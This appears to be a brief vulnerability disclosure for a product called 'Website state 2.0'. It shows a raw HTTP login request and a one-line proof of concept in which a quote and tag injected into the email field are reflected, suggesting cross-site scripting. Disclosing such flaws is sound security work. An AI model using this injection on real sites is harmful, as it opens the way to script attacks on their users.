

Locks_

Website state 2.0

https://xxx.com/admin/index.php

~~~
POST /admin/index.php HTTP/2
Host: xxx.com
Cookie: __vtins__Jdz6wPfHUz1ondDF=%7B%22sid%22%3A%20%22b77f3d79-6d1f-5afa-946c-676f7f691748%22%2C%20%22vd%22%3A%201%2C%20%22stt%22%3A%200%2C%20%22dr%22%3A%200%2C%20%22expires%22%3A%201698372223617%2C%20%22ct%22%3A%201698370423617%7D; __51uvsct__Jdz6wPfHUz1ondDF=1; __51vcke__Jdz6wPfHUz1ondDF=cbc7e15a-3ad1-53a7-b581-8ffe46959302; __51vuft__Jdz6wPfHUz1ondDF=1698370423621; PHPSESSID=k8b9b26fcbtae2qm09ds947s87
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://usitestat.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxx.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

process=login&email=testing%40example.com"<zzz>&password=password
~~~

POC:

POST

~~~
/admin/index.php

process=login&email=testing%40example.com"<zzz>&password=password
~~~

The email login box is closed and reflects

